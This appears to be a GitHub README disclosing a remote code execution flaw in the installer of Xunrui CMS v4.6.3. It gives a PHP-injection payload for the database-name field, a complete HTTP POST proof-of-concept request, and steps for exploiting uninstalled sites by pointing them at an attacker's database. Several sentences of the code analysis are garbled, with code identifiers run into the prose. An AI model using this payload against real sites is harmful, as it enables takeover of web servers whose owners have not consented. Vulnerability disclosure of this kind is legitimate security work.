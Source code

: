 # xunruicms_rce
The RCE is connected through the CMS installation interface
# Xunrui CMS Installation Vulnerability

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)

## Payload:
``` exp;-- ---'];phpinfo();['```

###Vulnerability Reproduction:
Normal installation of .database.php
During installation, the process immediately jumps to step 3.
File After Successful Exploitation:
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%871.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%872.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%873.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%874.png)
The file after exploitation shows how the vulnerability is exploited.

#Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . 

![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%875.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%876.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%877.png)
The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']
However, bypassing the database creation query is required.

###Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE
Thus, the exploit is:
```exp;-- ---'];phpinfo();['```
###Dynamic Analysis:
If the SQL query is successfully executed, the rest of the process proceeds smoothly.
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php
###Proof of Concept (PoC):
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

###Reproduce the Issue:
1.Remotely connect to the attacker's database.
2.The other party did not install the CMS, and did not generate the lock file.
